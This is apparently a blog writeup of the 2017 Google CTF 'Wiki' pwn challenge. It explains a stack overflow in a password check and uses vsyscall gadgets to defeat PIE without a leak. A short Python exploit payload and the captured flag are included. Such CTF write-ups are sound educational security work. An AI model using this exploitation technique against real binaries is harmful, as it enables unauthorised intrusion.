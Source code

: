 ```yaml
---
layout: post
title: Google CTF - Wiki Writeup
description: "Writeup for the 2017 Google CTF pwn challenge Wiki."
modified: 2017-06-24
tags: [writeup, ctf, pie, heap, pwn]
comments: true
share: true
categories: [writeups]
---
```


I began my Google CTF experience with this challenge which was categorized as a medium difficulty pwn task, but I have found it significantly easier than the inst-prof challenge which I solved later during the CTF. Without further ado, let's dig right into it.

The challenge binary is fairly simple, it is an x86\_64 linux executable, with [NX](https://en.wikipedia.org/wiki/NX_bit) and [PIE](https://en.wikipedia.org/wiki/Position-independent_code) enabled, but without stack canaries (all of these details are relevant for solving the challenge). Reversing the binary is straightforward, it simply reads a line from the user and depending on what the input is it can execute three different commands:
* `LIST`: simply lists the files in the `./db` directory. These file names correspond to the user names of the "legitim" users of the service and store their passwords
* `USER`: reads a username and tries to open the associated file in the `./db` folder, if the file is present it reads the *password* to a heap buffer and returns a pointer to it. This menu point can only be called once
* `PASS`: reads the password form the user and compares it with the password stored in the file, if they match `system("cat flag.txt")` is called, otherwise the program exits.

### The BUG

I started my investigation at the read username function, wanting to open some file that has easy to guess content, but the '/' characters are properly filtered. Unlucky for us there is no path traversal opportunity. There is one bug in the read line function, it does not append a `\0` character to the received string, but I have found no means to exploit this vulnerability. Every time this function is called from the program a larger buffer is passed to it, which is zeroed out
beforehand.

The most exciting bug, however, is a trivial buffer overflow in the password check function. It reads up to 4096 characters into a 128 bytes long stack buffer. As we noted at the beginning, stack protection is not enabled which makes this bug "easily" exploitable. All what is needed to complete the exploit is to leak the program base or a libc address. However, looking at the binary it quickly becomes obvious that there is no opportunity to leak anything. The only place the
program sends data is when the files (usernames) are listed, and we do not have any control over what gets printed there.

### The Exploit

What we have at this point is RIP control in a form of a buffer overflow and a sort of "win address" in the PIE binary, that prints us the flag, but we do not have any address leaks. My first thought was to do a partial overwrite of the return address, preserving the original return address besides its LSB. This would be feasible as the target address is really close to the original return address, but the problem is if the input length is not multiple of 8, the program exits. Below
is  the relevant part of the password compare function:

```c
char buffer[128]; // [sp+0h] [bp-98h]@1
if ( readLine(0, buffer, 4096LL) & 7 )
LABEL_7:
    _exit(v4);
result = strCmp(buffer, read_line_1);
if ( (_DWORD)result )
{
    v4 = system("cat flag.txt");
    goto LABEL_7;
}
return result;
```

There is only one constant segment in the virtual address space of PIE binary when ASLR is enabled, which is the `[vsyscall]` region. It provides access to three system calls that do not need to actually run in kernel mode. There is newer mechanism called vdso, which is affected by ASLR, but the vsyscall page is still present on modern systems for compatibility reasons (see [this](https://lwn.net/Articles/446528/) LWN article for more). What is important for us, is that there is a
read-execute page in the memory at a constant address which contain stubs for three syscalls (sys\_gettimeofday, sys\_time, sys\_getcpu). These syscall stubs all follow the same pattern:

```asm
mov eax, sycall_number
syscall
ret
```

The vsyscalls are executed in a way, that when they are called a page fault is generated and caught and the address of this page fault determines which syscall is going to be called (emulated). What this means is that only the "entry point", the beginning, of the system call can be called so we cannot play with misaligned instructions or call directly the return.

This still provides us with a way to traverse the stack for a more useful address already on it. Which can be achieved by overwriting the stack with the address of one of the vsyscalls multiple times. These syscalls also provide some control of the memory content pointed by the RDI and RSI registers. Breaking at the end of the password check function (where the return overflow is going to be triggered), we can observe that RDI points to the beginning of our stack buffer while RSI points to the heap buffer, where the original password is stored. All that is
required to complete the exploit is useful address on the stack to return to.

At the beginning of the main function the program copies the address of the three command functions from the .data section to the stack and passes it, as an argument, to the command loop. This means we can call any of those functions (with our stack traversal) including the password check. But this time the argument register of the function (RDI) points to the output of the sys\_gettimeofday call instead of the original password. The actual steps of the exploit:

* List the users
* Open one of the users
* Overflow the stack with the address of sys\_gettimeofday until the address of the password check function is reached
* Guess the returned time (epoch time in seconds), when the password function is called the second time
* Profit

And the actual code of the solution (the complete exploit is available [here](/resources/ctf/wiki_exploit.py)):

```python
m.c.sendline("LIST")
dirs = m.c.recv()
print "Users:"
print dirs
name = dirs.splitlines()[0]
m.c.sendline("USER")
print "Login as: "+name
m.c.sendline(name)

buff = "A"*0x88 # The actual buffer
rbx = "B" * 8   # pop rbx
rbp = "C" * 8   # pop rbp
ret = p64(0xffffffffff600400) # sys_gettimeofday
# The stack needs to be traversed by 24*8 bytes
payload = buff + rbx + rbp + ret *24
m.c.sendline("PASS")
m.c.sendline(payload)
guess = p64(int(time.time()))
m.c.sendline(guess)

m.c.interactive()
```

This simple exploit yielded the flag:

```
CTF{NoLeaksFromThisPipe}
```

This task was fairly simple to solve, especially since I have seen this trick being used in previous CTF challenges. Still I think it was a well constructed and thought out challenge kudos to the creator!
